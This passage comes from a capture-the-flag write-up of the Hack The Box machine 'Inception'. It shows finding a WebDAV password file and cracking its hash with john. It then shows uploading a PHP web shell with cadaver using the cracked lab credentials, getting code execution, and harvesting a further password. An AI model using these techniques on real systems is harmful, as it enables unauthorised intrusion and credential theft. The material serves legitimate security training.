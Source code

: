 After some enum, we found the webdav config file

`/etc/apache2/sites-enabled/000-default.conf`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:24:22.png)

`AuthUserFile /var/www/html/webdav_test_inception/webdav.passwd`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:24:57.png)

We crack it

```sh
john hash.txt --wordlist=pass.txt
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:26:01.png)

Now we upload a php shell in it

```
cadaver http://10.10.10.67/webdav_test_inception
webdav_tester
babygurl69
put 0x4rt3mis.php
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:31:26.png)

We test, and we have RCE

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:32:57.png)

We did not get a reverse shell because this box is in another ip range

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:42:45.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:45:10.png)

So, we start enumerating the web server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:46:27.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:46:51.png)

We found a credential

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:47:47.png)

`VwPddNh7xMZyDQoByQL4`

# Cobb Shell

We found a local user in it with ssh

